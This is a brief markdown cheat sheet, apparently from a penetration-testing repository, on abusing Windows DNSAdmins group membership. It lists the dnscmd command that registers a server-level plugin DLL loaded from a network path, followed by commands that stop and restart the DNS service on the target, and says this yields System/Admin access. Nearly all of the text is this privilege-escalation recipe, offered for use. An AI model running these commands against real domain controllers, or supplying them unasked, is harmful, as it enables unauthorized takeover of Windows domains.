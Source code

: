 # DNSAdmins group abuse

## Prerequisites: User is in the DNSAdmins Group

    dnscmd.exe /config /serverlevelplugindll \\PATH\TO\.DLL 

    sc \\DNSServer stop dns

    sc \\DNSServer start dns

### This gives us System/Admin access

